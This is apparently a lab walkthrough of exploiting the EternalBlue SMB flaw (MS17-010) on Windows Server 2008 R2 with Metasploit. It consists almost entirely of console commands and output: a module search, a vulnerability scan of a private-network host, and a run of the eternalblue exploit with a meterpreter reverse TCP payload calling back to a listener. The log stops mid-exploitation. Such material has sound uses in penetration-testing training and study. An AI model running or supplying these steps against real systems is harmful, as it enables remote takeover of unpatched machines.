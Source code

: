 ```
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
```

```
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)
```

```
msf6 > search EternalBlue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

```

```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.248.133:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.248.133:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.248.148:4444 
[*] 192.168.248.133:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.248.133:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.248.133:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.248.133:445 - The target is vulnerable.
[*] 192.168.248.133:445 - Connecting to target for exploitation.
[+] 192.168.248.133:445 - Connection established for exploitation.
[+] 192.168.248.133:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.248.133:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.248.133:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.248.133:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.248.133:445 - 0x00000020  37 36 30 30                                      7600            
[+] 192.168.248.133:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.248.133:445 - Trying exploit with 12 Groom Allocations.
```